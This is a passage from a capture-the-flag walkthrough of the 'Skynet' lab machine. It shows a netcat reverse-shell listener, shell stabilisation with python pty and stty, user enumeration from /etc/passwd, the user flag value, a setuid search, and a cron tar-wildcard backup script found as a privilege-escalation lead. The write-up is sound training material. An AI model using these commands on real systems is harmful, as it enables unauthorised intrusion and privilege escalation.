 Stabilize shell

```bash
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ python3 -c "import pty;pty.spawn('/bin/bash')"
<strator/alerts$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~/thm/skynet]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ 
```

Enum users

```bash
<ml/45kra24zxs28v3yd/administrator/alerts$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
```

User flag

```bash
<ml/45kra24zxs28v3yd/administrator/alerts$ cd /home/milesdyson
www-data@skynet:/home/milesdyson$ ls
backups  mail  share  user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```

### What is the root flag?

No vulnerable setuid binary found

```bash
find / -type f -perm /u=s+ -ls 2>/dev/null
```

List files in the user dir

```bash
www-data@skynet:/home/milesdyson$ find .
.
./.bash_history
./.bash_logout
./backups
./backups/backup.sh
./backups/backup.tgz
./share
./share/Improving Deep Neural Networks.pdf
...

www-data@skynet:/home/milesdyson$ cat ./backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
